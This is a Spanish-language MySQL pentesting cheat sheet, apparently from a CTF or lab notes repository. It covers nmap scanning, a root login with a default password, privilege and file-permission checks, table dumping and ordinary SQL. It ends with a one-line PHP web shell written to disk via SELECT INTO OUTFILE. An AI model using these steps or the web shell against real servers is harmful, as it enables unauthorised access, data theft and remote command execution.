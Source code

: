 # Relacionarse

### Scan

    sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

### Conectar

    mysql -u root -p'root' -h 192.168.50.16 -P 3306 --ssl=FALSE

### Version

    select version();
### ver privilegios:
    SHOW GRANTS;

### Leer variables de entorno:
    SHOW VARIABLES LIKE '<variable>';

### Ver si tenemos permisos para relacionarnos con archivos
    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

### Ver dbs

    show databases;

### Ver tablas

    show tables;

### ver estructura de una tabla:
    DESCRIBE <tabla>;
    
### Dumpear datos de una tabla

    select * from <tabla>

### Buscar un dato en base a un patrón (coincidencia de letras en un nombre, etc):
    SELECT * FROM <tabla> WHERE <campo> LIKE <condición >

### Eliminar una tabla de un servidor:
    DROP TABLE <tabla>;

---
# Creacion

### crear una DB:
    CREATE DATABASE "nombre";

### insertar un registro en una tabla:
    INSERT INTO table_name VALUES (column1_value, column2_value, column3_value, ...);

---

# Modificar datos
### Modificar una tabla(nombre, campos, agregar o eliminar una columna)
    ALTER TABLE <tabla> ADD <nombre_columna> <tipo_de_valor>;
    ALTER TABLE <tabla> RENAME COLUMN <columna_actual> TO <nuevo_nombre>;
    ALTER TABLE <tabla> MODIFY <columna a modificar> <tipo de dato al que se cambia>;
    ALTER TABLE <tabla> DROP <columna>

### Modificar un dato de un registro:

    UPDATE <tabla> SET <columna> = <valor> WHERE <condición (ej: "id > 1")>;

    

si somos DBA y sabemos cómo acceder a los archivos desde un servicio web, podemos crear una shell:
SELECT '<?php system($_GET[1]); ?>' INTO OUTFILE 'path_to_file';



el resto en:
https://github.com/LaPorota/LaPorota_suite/blob/main/sqli
